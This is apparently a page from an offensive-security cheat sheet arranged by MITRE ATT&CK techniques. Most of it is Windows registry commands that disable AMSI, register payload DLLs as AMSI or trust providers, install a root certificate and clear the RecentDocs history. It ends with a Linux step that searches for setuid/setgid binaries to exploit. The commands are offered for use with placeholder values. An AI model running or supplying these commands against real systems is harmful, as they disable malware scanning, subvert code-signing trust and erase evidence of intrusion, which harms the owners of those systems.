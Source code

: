 - **Command for Disabling AMSI:**
```
reg add HKLM\SOFTWARE\Microsoft\Windows Script\Settings /v AmsiEnable /t REG_DWORD /d 0 /f
```

- **Command for Modifying AMSI Providers Registry:**
```
reg add HKLM\SOFTWARE\Microsoft\AMSI\Providers /v ExampleProvider /t REG_SZ /d "C:\Path\To\Payload.dll" /f
```

### Indicator Removal (T1070)

- **Command for Clearing RecentDocs Registry:**
```
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs /f
``` 

### Subvert Trust Controls: SIP and Trust Provider Hijacking (T1553.003)

- **Command for Modifying Trust Provider Registry:**

```
reg add HKLM\SOFTWARE\Microsoft\Cryptography\Providers\Trust /v ExampleTrust /t REG_SZ /d "C:\Path\To\Payload.dll" /f
```  

### Subvert Trust Controls: Install Root Certificate (T1553.004)

- **Command for Modifying ROOT Certificates Registry:**
```
reg add HKLM\SOFTWARE\Microsoft\SystemCertificates\ROOT\Certificates /v ExampleCert /t REG_BINARY /d 0x308203BD30820326... /f
```  

 
 Replace "ExampleProvider," "C:\Path\To\Payload.dll," "ExampleTrust," "C:\Path\To\Payload.dll," "ExampleCert," and "0x308203BD30820326..." with your specific values. Always exercise caution and ensure you have the appropriate permissions when making registry modifications.


----------------

# Exploiting Setuid and Setgid Bits

- **Command to Check Setuid/Setgid Binaries:**
```
find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \;
```
  
- **Command to Exploit a Vulnerable Setuid Binary:**

```
./vulnerable_binary
```
